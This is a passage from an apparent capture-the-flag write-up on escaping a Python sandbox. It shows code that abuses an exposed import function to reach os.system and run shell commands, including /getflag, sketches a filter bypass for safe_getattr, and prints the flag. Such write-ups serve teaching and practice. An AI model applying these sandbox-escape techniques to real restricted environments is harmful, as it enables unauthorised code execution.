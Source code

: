 ### Profit:
At this point there are a variety of options. It's a very strong object that hasn't been written with security in mind.
The easiest option is to use the import functionality.
A fun alternative option is to evade the filters on attribute names in `safe_getattr` by creating a fake subtype of string and overwriting the `id` attribute of an `ast.Name` node with it, but I'll leave that as a fun exercise for the reader.

```python
# Import and escape the jail
i.import_module("os",["sys"],["system"])
sys("echo hi mom")
sys("/getflag")
print()
```

`kalmar{d0nt_play_w1th_5n4kes_if_you_don7_h4ve_gl0v3s}`
